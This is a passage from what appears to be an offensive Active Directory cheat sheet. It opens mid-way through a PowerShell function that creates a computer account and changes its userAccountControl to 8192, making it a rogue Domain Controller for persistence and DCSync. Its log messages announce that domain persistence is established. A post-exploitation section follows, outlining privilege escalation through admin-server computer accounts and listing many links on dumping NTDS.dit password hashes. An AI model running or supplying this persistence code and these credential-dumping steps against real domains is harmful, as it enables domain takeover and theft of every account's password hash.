 ```
$VerbosePreference = "Continue"

Write-Verbose -Message "Creating Computer Account: $ComputerName"
New-ADComputer $ComputerName -AccountPassword $securestring -Enabled $true -OperatingSystem $OS -OperatingSystemVersion $OS_Version -DNSHostName
$DNSName -ErrorAction Stop;
Write-Verbose -Message "$ComputerName created!"
Write-Verbose -Message "Attempting to establish persistence."
Write-Verbose -Message "Changing the userAccountControl attribute of $MachineAccount computer to 8192."
Set-ADComputer $MachineAccount -replace @{ "userAccountcontrol" = 8192 };
Write-Verbose -Message "$MachineAccount is now a Domain Controller!"
Write-Verbose -Message "Domain persistence established!You can now use the DCSync technique with Pentestlab credentials."
$VerbosePreference = "Continue"
}
```



## Post-Exploitation

### Computer accounts privesc
> For example, if an admin server is joined to a group with backup rights on Domain Controllers, all an attacker needs to do is compromise an admin account with rights to that admin server and then get System rights on that admin server to compromise the domain.

1. Compromise an account with admin rights to admin server.
2. Admin server computer account needs rights to Domain Controllers.

### Extract NTDS
#### Extract NTDS without Admin priv
- https://www.youtube.com/watch?v=KWLA_OLanPc

#### Multiple ways to extract NTDS
- https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/
- https://www.puckiestyle.nl/extracting-password-hashes-from-the-ntds-dit-file/
- https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/
- https://www.cyberis.com/article/obtaining-ntdsdit-using-built-windows-commands
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration
- https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/tutorial-for-ntds-goodness-vssadmin-wmis-ntdsdit-system/
- https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin
- https://www.hackingarticles.in/credential-dumping-ntds-dit/
- https://stealthbits.com/attacks/ntdsdit-password-extraction/
- https://www.ultimatewindowssecurity.com/blog/default.aspx?d=10/2017
